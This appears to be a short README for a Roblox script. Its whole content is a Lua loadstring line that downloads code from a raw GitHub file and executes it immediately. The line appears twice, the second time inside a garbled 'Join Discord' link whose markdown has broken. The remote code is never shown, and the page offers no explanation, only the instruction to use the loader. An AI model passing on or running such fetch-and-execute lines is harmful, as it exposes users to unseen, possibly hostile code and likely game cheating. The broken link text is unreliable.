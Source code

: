 #  USE THIS LOAD STRING

## **loadstring(game:HttpGet("https://raw.githubusercontent.com/Bluntman420n/fucns/main/FUCKYOUCUNT.BLUNT", true))()**


### **[Join Discord](http://#  USE THIS LOAD STRING  ### **loadstring(game:HttpGet("https://raw.githubusercontent.com/Bluntman420n/fucns/main/FUCKYOUCUNT.BLUNT", true))()**   ## **Discord LINK "Join Discord")**
